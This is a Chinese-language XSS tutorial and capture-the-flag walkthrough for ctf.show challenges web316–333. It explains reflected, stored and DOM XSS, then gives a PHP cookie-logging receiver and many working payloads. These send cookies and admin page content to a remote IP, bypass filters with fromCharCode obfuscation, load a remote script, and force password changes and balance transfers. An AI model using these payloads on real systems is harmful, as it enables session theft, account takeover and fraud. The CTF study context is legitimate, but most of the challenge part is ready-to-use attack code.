


前言
XSS原理
跨站脚本攻击（XSS），是最普遍的Web应用安全漏洞。这类漏洞能够使得攻击者嵌入恶意脚本代码到正常用户会访问到的页面中，当正常用户访问该页面时，则可导致嵌入的恶意脚本代码的执行，从而达到恶意攻击用户的目的。
HTML是一种超文本标记语言，通过将一些字符特殊地对待来区别文本和标记，例如，小于符号（<）被看作是HTML标签的开始，之间的字符是页面的标题等等。当动态页面中插入的内容含有这些特殊字符（如<）时，用户浏览器会将其误认为是插入了HTML标签，当这些HTML标签引入了一段JavaScript脚本时，这些脚本程序就将会在用户浏览器中执行。所以，当这些特殊字符不能被动态页面检查或检查出现失误时，就将会产生XSS漏洞。
俗称的见框就插。个人理解，由于HTML的标签特性，可以通过网页的输入框输入脚本代码，使网页执行恶意脚本，达到攻击的目的。
XSS类型介绍
反射型
反射型跨站脚本（Reflected Cross-Site Scripting）是最常见，也是使用最广的一种，可将恶意脚本附加到 URL 地址的参数中
反射型 XSS 的利用一般是攻击者通过特定手法（如电子邮件），诱使用户去访问一个包含恶意代码的 URL，当受害者点击这些专门设计的链接的时候，恶意代码会直接在受害者主机上的浏览器执行。此类 XSS 通常出现在网站的搜索栏、用户登录口等地方，常用来窃取客户端 Cookies 或进行钓鱼欺骗。
存储型
持久型跨站脚本（Persistent Cross-Site Scripting）也等同于存储型跨站脚本（Stored Cross-Site Scripting）。
此类 XSS 不需要用户单击特定 URL 就能执行跨站脚本，攻击者事先将恶意代码上传或储存到漏洞服务器中，只要受害者浏览包含此恶意代码的页面就会执行恶意代码。持久型 XSS 一般出现在网站留言、评论、博客日志等交互处，恶意脚本存储到客户端或者服务端的数据库中。
DOM 型
传统的 XSS 漏洞一般出现在服务器端代码中，而 DOM-Based XSS 是基于 DOM 文档对象模型的一种漏洞，所以，受客户端浏览器的脚本代码所影响。客户端 JavaScript 可以访问浏览器的 DOM 文本对象模型，因此能够决定用于加载当前页面的 URL。换句话说，客户端的脚本程序可以通过 DOM 动态地检查和修改页面内容，它不依赖于服务器端的数据，而从客户端获得 DOM 中的数据（如从 URL 中提取数据）并在本地执行。另一方面，浏览器用户可以操纵 DOM 中的一些对象，例如 URL、location 等。用户在客户端输入的数据如果包含了恶意 JavaScript 脚本，而这些脚本没有经过适当的过滤和消毒，那么应用程序就可能受到基于 DOM 的 XSS 攻击。
常见的标签
1.alert()
- alert(‘xss’)
- alert(“xss”)
- alert(/xss/)
- alert(document.cookie)
2.confirm()
- confirm(‘xss’)
- confirm(“xss”)
- confirm(/xss/)
- confirm(document.cookie)
3.prompt()
- prompt(‘xss’)
- prompt(“xss”)
- prompt(/xss/)
- prompt(document.coolkie)
- (/xss/) 以上三种方法都可以实现，但是会多出两个‘/’
4.document.write()
- document.write(‘
web316-333
web316(cookie script)
可以使用xss平台，也可以使用服务器自己搭建
在服务器上面放一个接受Cookie的文件。
<?php
$cookie = $_GET['cookie'];
$time = date('Y-m-d h:i:s', time());
$log = fopen("cookie.txt", "a");
fwrite($log,$time.': '. $cookie . "\n");
fclose($log);
?>
<script>location.href="http://xxxxxx/cookie.php?cookie="+document.cookie</script>cookie.txt里面就可以看到flag，或者查看日志
web317(img)
过滤了script可以使用img
<img src="" onerror=location.href="http://xxxxxx/cookie.php?cookie="+document.cookie >web318(body iframe)
过滤了img使用body或者iframe
<body onload=location.href="http://xxxxxxx/xss/cookie.php?cookie="+document.cookie>
<iframe οnlοad=document.location='http://xxxxxxx/xss/cookie.php?cookie='+document.cookie>web319
同318
web320-326(空格绕过 fromCharCode)
过滤了script，img， , iframe。
web322过滤了xss
空格可以用%09、tab、/、/**/、%0a代替。
<body/**/onload=location.href="http://xxxxxxx/xss/cookie.php?cookie="+document.cookie>
<iframe/**/οnlοad=document.location='http://xxxxxxx/xss/cookie.php?cookie='+document.cookie>扩展一下payload：
String.fromCharCode()函数：ascii码转字符
参考：https://www.runoob.com/jsref/jsref-fromcharcode.html
String.fromCharCode(111,110,108,111,97,100); 控制台运行结果如下：

用它我可以构造一个payload：
<body/**/οnlοad=document.write(String.fromCharCode(60,115,99,114,105,112,116,62,100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,46,104,114,101,102,61,34,104,116,116,112,58,47,47,49,49,55,46,55,50,46,55,48,46,49,56,54,47,120,115,115,47,99,111,111,107,105,101,46,112,104,112,63,99,111,111,107,105,101,61,34,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,60,47,115,99,114,105,112,116,62));>
<script>document.location.href="http://117.72.70.186/xss/cookie.php?cookie="+document.cookie</script>String2ascii.py
input_str = input("请输入字符串: ") # 获取用户输入的字符串
ascii_list = []
# 遍历字符串，将每个字符转换为ASCII码，并添加到列表中
for char in input_str:
ascii_code = ord(char) # 使用ord()函数获取字符的ASCII码
ascii_list.append(str(ascii_code)) # 将ASCII码转换为字符串并添加到列表
# 将列表中的ASCII码用逗号隔开，并打印结果
result = ','.join(ascii_list)
print("转换后的ASCII码:", result)
Ascii2string.py
def ascii_to_string(ascii_str):
# 将以逗号分隔的ASCII码字符串分割成一个列表
ascii_list = ascii_str.split(',')
# 使用列表推导式将ASCII码转换为字符，并连接成一个字符串
result = ''.join(chr(int(code)) for code in ascii_list)
return result
# 输入以逗号分隔的ASCII码字符串
ascii_str = input("请输入以逗号分隔的ASCII码字符串: ")
# 调用函数进行转换并打印结果
string_result = ascii_to_string(ascii_str)
print("转换后的字符串:", string_result)
web327(存储型xss)
虽然但是，还是之前的payload，收件人必须是admin
web328(伪造Cookie)
先提前监听5010端口，然后在注册用户的时候注入payload，反弹管理员的cookie
<script>window.open('http://117.72.70.186:5010/'+document.cookie)</script>这样得到admin的cookie进行伪造查看用户即可得到flag
web329
和上题不同的是，Cookie会立刻失效。不能通过窃取Cookie的形式得到flag了。
我们分析一下原理，我们的payload作为储存型XSS，管理员访问时候能被我们窃取Cookie，那是不是还能窃取点别的东西呢，比如说管理员看到的用户名和密码。理论上来说是可以的，所以就直接获取管理员的页面信息。
我们可以通过类名查找元素，通过document来获取。
现在服务器上面监听端口5010。
innerHTML和outerHTML的区别
1、innerHTML:
从对象的起始位置到终止位置的全部内容,不包括Html标签。
innerText可替代innerHTML2、outerHTML:
除了包含innerHTML的全部内容外, 还包含对象标签本身。

可以看到前端代码中将要显示admin密码的地方类为layui-table-cell laytable-cell-1-0-1
payload：
<script>window.open('http://117.72.70.186:5010/'+document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')[1].innerHTML)</script>解释一下它的每一部分：
window.open('http://117.72.70.186:5010/'+document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')[1].innerHTML)这是一个调用 window.open() 函数的语句，用于打开新的浏览器窗口。'http://117.72.70.186:5010/'这是一个字符串，表示要打开的网页的 URL。它包括了协议（http://）、主机名（120.46.41.173）和端口号（9023），以及路径（后面的斜杠 /）。document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')[1].innerHTML这是一系列 DOM 操作，用于获取网页中特定元素的内容。document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')是一个通过类名查找元素的方法。它查找具有类名'layui-table-cell'和'laytable-cell-1-0-1'的元素，通常这是一种针对表格单元格的选择。[1]表示从匹配的元素列表中选择第二个元素（JavaScript 中的数组索引从 0 开始）。.innerHTML用于获取选定元素的 HTML 内容，也就是在这个表格单元格中显示的文本或 HTML。

web330
多了一个修改密码，可以看到调用了api/change.php参数p则是我们修改的密码

我们可以伪造admin的cookie来去修改密码，但cookie是暂时的，所以利用xss主动去改
<script>window.location.href='http://127.0.0.1/api/change.php?p=111';</script>然后登录admin就可以了
web331
和上题类似，我们先抓包分析。这次修改密码变成了POST请求。
<script>$.ajax({url:"api/change.php",method:"POST",data:{'p':'111'}})</script>web332
这次多了可以转账的功能
说是可以向别人转负数，但是我这儿就是有内鬼，停止交易😅
所以利用xss
jquery的这个ajax不能携带cookie请求，所以有点麻烦，但是如果是本地请求就刚好绕过了这一点
$.ajax({
url: "http://127.0.0.1/api/amount.php",
method: "POST",
data:{
'u':'test',
'a':10000
},
cache: false,
success: function(res){
}});
<script src="http://117.72.70.186/xs5/post.js"></script>在注册界面填入payload
然后找个test账号收钱
web333
332的方法照样可以
也可以转账给自己，而且得保证自己最低有1块钱，写个脚本
import requests
import re
import time
x=5
url="http://f6d9355e-3521-4f14-b1f7-c6bbe137790d.challenge.ctf.show/api/amount.php"
url2="http://f6d9355e-3521-4f14-b1f7-c6bbe137790d.challenge.ctf.show/api/getFlag.php"
headers={'Cookie':'PHPSESSID=3o54ih5njfm1hh1ccnet28e59b'} #自己登录后的sessionid
while True:
print(x)
t=x-1
data={
'u':'hsad', #注册的用户名
'a':str(t)
}
r=requests.post(url,headers=headers,data=data)
print(r.text)
if(x>10000):
r2=requests.get(url2,headers=headers)
print(r2.text)
break
x+=t